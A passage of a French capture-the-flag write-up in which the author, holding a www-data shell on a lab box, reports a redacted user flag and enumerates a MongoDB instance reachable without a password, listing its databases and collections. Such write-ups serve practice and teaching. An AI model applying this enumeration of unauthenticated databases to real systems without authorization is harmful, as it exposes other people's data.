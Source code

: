 # Privesc user! 
Le 1er flag ce trouve dans le **/home** du user **webdevelopper**
```
6319***************************
```
On vois avec Linpeas que la base de donnée est mongodb.
Par chance, on peux s'y connecter sans mot de passe:
```
www-data@sky:/home/webdeveloper$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("1527056d-e411-4f09-a807-a7d23b8d88e2") }
MongoDB server version: 4.4.6
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
        https://community.mongodb.com
---
The server generated these startup warnings when booting: 
        2023-11-17T07:59:40.653+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
        2023-11-17T08:00:10.548+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
---
---
        Enable MongoDB's free cloud-based monitoring service, which will then receive and display
        metrics about your deployment (disk utilization, CPU, operation statistics, etc).

        The monitoring data will be available on a MongoDB website with a unique URL accessible to you
        and anyone you share the URL with. MongoDB may use this information to make product
        improvements and to suggest MongoDB products and deployment options to you.

        To enable free monitoring, run the following command: db.enableFreeMonitoring()
        To permanently disable this reminder, run the following command: db.disableFreeMonitoring()
---
>
```
On va fouiller un peu tout ca, on affiche ici les dbs:
```
> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
```
Ici les users, il n'y en pas.
```
> show users
```
On va voir dans la db **admin**
```
> use admin
switched to db admin
> show collections
system.version
```
Rien de bien interessant, peut-être dans le **backup** ?
```
> use backup
switched to db backup
> show collections
```